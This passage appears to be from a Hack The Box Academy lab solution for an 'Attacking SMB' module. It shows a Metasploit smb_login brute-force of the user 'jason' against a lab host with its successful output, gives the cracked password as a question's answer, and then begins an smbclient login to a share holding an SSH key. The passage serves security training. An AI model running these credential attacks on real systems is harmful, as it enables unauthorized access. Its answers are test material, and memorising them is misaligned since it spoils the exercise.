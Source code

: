 Code: shell

```shell
msfconsole -q
use auxiliary/scanner/smb/smb_login
set rhosts STMIP
set SMBUSER jason
set PASS_FILE ./pws.list
set stop_on_success true
run
```

```
┌─[us-academy-1]─[10.10.14.4]─[htb-ac413848@pwnbox-base]─[~]
└──╼ [★]$ msfconsole -q

msf6 > use auxiliary/scanner/smb/smb_login 
msf6 auxiliary(scanner/smb/smb_login) > set rhosts 10.129.167.224
rhosts => 10.129.167.224
msf6 auxiliary(scanner/smb/smb_login) > set SMBUSER jason
SMBUSER => jason
msf6 auxiliary(scanner/smb/smb_login) > set PASS_FILE ./pws.list
PASS_FILE => ./pws.list
msf6 auxiliary(scanner/smb/smb_login) > set stop_on_success true
stop_on_success => true
msf6 auxiliary(scanner/smb/smb_login) > run

[*] 10.129.167.224:445    - 10.129.167.224:445 - Starting SMB login bruteforce

<SNIP>

[+] 10.129.167.224:445    - 10.129.167.224:445 - Success: '.\jason:34c8zuNBo91!@28Bszh'
[*] 10.129.167.224:445    - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

Answer: `34c8zuNBo91!@28Bszh`

# Attacking SMB

## Question 3

### "Login as the user "jason" via SSH and find the flag.txt. Submit the contents as the answer."

Using the credentials `jason:34c8zuNBo91!@28Bszh`, students first need to use `smbclient` to access the `GGJ` share on which they will find the SSH private key of `jason`:

Code: shell

```shell
smbclient -U jason //STMIP/GGJ
```
